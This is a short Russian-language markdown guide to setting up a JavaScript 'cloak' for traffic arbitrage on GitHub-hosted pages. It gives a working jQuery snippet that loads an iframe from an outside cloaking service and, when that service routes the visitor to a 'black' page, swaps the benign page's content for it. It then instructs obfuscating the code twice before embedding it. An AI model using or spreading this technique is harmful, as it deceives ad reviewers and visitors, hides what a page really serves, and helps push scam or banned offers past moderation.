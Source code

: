 ```yaml
---
title: "Настройка JS клоаки"
date: 2019-10-25T17:31:01+03:00
draft: false
---
```


## Вводные

В корне гитхаба должно быть 3 файла:

- файл `w.html` - это белая страница
- файл `black.html` - это прокладка
- файл `blog.html` - это копия белой страницы с клоакой, на которую будет идти трафик

## Установка клоаки

1. Отредактировать код:
{{< highlight js >}}
$(function () {
    $('body').append('<iframe src="https://beta.dolphin.ru.com/magic/rukz.php?domain=ДОМЕН-GITHUB&path=ИМЯ-РЕПОЗИТОРИЯ"></iframe>');
    setTimeout(function () {
        var html = $('iframe').contents().find('html').html();
        var frameLocation = window.frames[0].location.href;
        if (frameLocation.search('black.html') != -1) {
            document.open();
            document.write(html);
            document.close();
        }
        $('iframe').remove();
    }, 1500);
});
{{< / highlight >}}
2. Прогнать код через <a href="https://obfuscator.io/" target="_blank">обфускатор1</a>
3. Получившийся код прогнать код через <a href="https://javascriptobfuscator.com/Javascript-Obfuscator.aspx" target="_blank">обфускатор2</a>
4. Создать файл `js/1.js` и вставить результат работы обфускатора в него
5. Вставить на странице `white.html` перед закрывающим `</body>` код:
{{< highlight html >}}
<script src="js/1.js"></script>
{{< / highlight >}}